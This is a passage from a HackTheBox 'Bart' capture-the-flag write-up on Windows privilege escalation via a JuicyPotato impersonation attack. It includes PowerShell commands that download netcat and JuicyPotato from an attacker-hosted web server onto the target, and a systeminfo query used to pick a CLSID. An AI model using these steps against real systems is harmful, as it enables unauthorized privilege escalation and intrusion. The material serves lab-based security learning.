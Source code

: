 ![priv-36](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bart/img/privs-36.png)


We have the `Impersonate` privilege enabled, this means we can try a [potato attack](https://github.com/ohpe/juicy-potato). 

Download the potato attaack and grab a copy of `/usr/share/windows-resources/binaries/nc.exe` to you current directory.
Then host a pyhton web server with:

```bash
python3 -m http.server 80
```

Now download both files to the target with:

```powershell
iwr -uri 'http://10.10.14.62/nc.exe' -outfile nc.exe
iwr -uri 'http://10.10.14.62/JuicyPotato.exe' -outfile jp.exe
```

Now, we need to find a valid CLSID for our target, lets check the system type:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![win10-pro-37](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bart/img/win10-pro-37.png)

Lets find a valid CLSID:

![clsid-38](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bart/img/clsid-38.png)

